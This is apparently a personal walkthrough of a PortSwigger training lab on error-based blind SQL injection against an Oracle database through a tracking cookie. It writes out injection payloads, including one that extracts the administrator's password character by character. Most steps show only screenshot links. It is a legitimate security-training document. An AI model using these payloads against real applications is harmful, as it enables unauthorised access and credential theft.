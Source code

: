 
### Lab Description

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

#### Hint

> This lab uses an Oracle database. For more information, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).


#### Lab solution

- 1. Trigger error ( ' single quote at cookie)
![[Pasted image 20230529183051.png]]
![[Pasted image 20230529183117.png]]

- 2. Oracle database ( this will trigger an error because Oracle always required a from dual at the end of a command)
![[Pasted image 20230529183623.png]]
![[Pasted image 20230529183724.png]]

- 3. ow that you've crafted what appears to be a valid query, try submitting an invalid query while still preserving valid SQL syntax. For example, try querying a non-existent table name:
```sql
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
```
- 4. Trigger the SQL true condition
![[Pasted image 20230529184138.png]]

- 5. Enumerate user `administrator` ( if the error returned if enumerate user, otherwise the user not exists)
![[Pasted image 20230529184303.png]]

- 6. how many characters are in the password of the `administrator`
![[Pasted image 20230529184516.png]]
- 7. The next step is to test the character at each position to determine its value
`'||(SELECT CASE WHEN SUBSTR(password,20,1)='b' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

![[Pasted image 20230529185110.png]]

- Lab Solved!